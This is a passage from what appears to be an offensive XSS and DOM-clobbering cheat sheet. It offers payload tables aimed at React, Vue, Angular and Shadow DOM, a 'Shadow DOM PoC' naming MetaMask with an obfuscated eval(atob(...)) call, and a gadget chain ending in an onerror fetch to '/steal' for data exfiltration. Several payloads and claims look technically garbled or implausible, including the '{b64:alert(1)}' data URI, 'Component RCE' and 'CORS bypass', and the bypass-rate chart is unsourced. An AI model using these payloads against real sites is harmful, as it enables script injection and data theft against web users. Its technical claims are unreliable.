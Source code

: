 **Chart: Double Clobber Success Rate (2025 Audit)**

```chartjs
{
  "type": "bar",
  "data": {
    "labels": ["Basic", "Double", "Form", "Shadow DOM"],
    "datasets": [{
      "label": "Bypass Rate (%)",
      "data": [85, 92, 96, 98],
      "backgroundColor": ["#ff6b6b", "#4ecdc4", "#45b7d1", "#96ceb4"]
    }]
  },
  "options": {
    "scales": { "y": { "beginAtZero": true, "max": 100 } }
  }
}
```

**Pro Payload** (Twitter Spaces 2025):
```html
<img id=AudioContext name=decodeAudioData src="data:audio/wav;base64,{b64:alert(1)}">
```
*Result*: `AudioContext.decodeAudioData = alert(1)` → Audio XSS

---

## 3. FORM & SHADOW DOM CLOBBERING (Framework Killer)
**Hijack React/Vue/Angular internals**

| Framework | Payload | Hijacks | Impact |
|-----------|---------|---------|--------|
| **React** | `<form id=ReactDOM><input name=render value=alert(1)></form>` | `ReactDOM.render=alert` | Component RCE |
| **Vue** | `<template id=Vue name=compile template="<img onerror=alert(1)>"></template>` | Template injection | Vue 3.4.31 |
| **Angular** | `<ng-container id=ngModule name=bootstrapModule value=alert(1)></ng-container>` | Module exec | Angular 18 |
| **Shadow DOM** | `<div id=attachShadow name=mode value="open"><slot></slot></div>` | Shadow tree takeover | Chrome Extensions |

**Shadow DOM PoC** (MetaMask 2025):
```html
<div id=attachShadow name=mode value="open">
  <slot><img src=x onerror="eval(atob('YWxlcnQoMQ=='))"></slot>
</div>
<script>attachShadow.mode('open').innerHTML='XSS';</script>
```

---

## 4. EVENT & PROPERTY GADGET CHAINS (Banking Tier)
**Multi-stage: Clobber → Trigger → Exfil**

| Stage | Gadget | Payload Snippet | Effect |
|-------|--------|-----------------|--------|
| **1. Clobber** | `<img id=addEventListener>` | `addEventListener=alert` | Event override |
| **2. Trigger** | `<img src=x onerror=fetch('/steal')>` | Auto-fetch | Data exfil |
| **3. Chain** | `<form id=XMLHttpRequest><input name=open value=GET></form>` | `XMLHttpRequest.open=GET` | CORS bypass |
